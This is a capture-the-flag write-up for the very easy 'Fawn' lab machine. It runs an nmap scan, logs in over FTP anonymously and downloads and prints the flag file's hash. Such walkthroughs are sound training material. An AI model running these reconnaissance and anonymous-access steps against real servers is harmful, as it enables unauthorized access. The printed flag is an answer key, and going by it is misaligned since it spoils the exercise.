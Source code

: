 ```yaml
---
Title: Fawn
Difficulty: very easy
Tags: Linux, FTP, Account Misconfiguration
Tools: nmap
Author: sl0th0x87
Date: 2022/01/10
---
```

# Fawn

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.139.214
* Operating System: Linux

## NMAP scan
Make a portscan over all ports with service detecion
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.139.214
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 16:32 CET
Nmap scan report for 10.129.139.214
Host is up (0.043s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.39
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.42 seconds
```

### Open ports
* 21/tcp open  ftp     vsftpd 3.0.3

## FTP
The NMAP script shows us, that anonymous login is allowed\
So connect to the server with FTP

Set a username 'anonymous' and no password
```bash
ftp 10.129.139.214
```
```bash
Connected to 10.129.139.214.
220 (vsFTPd 3.0.3)
Name (10.129.139.214:sl0th0x87): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Show all files in the directory
```bash
ftp> ls
```
```bash
229 Entering Extended Passive Mode (|||24622|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
226 Directory send OK.
```

Download the flag.txt file to your local computer
```bash
ftp> get flag.txt
```
```bash
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||45685|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |**************************************************************************************************************************************************************************************************|    32      215.51 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.18 KiB/s)
ftp> quit
221 Goodbye.
```

Get the root flag
```bash
└─$ cat flag.txt                       
035db21c881520061c53e0536e44f815
```

Congratulations! You got the root flag!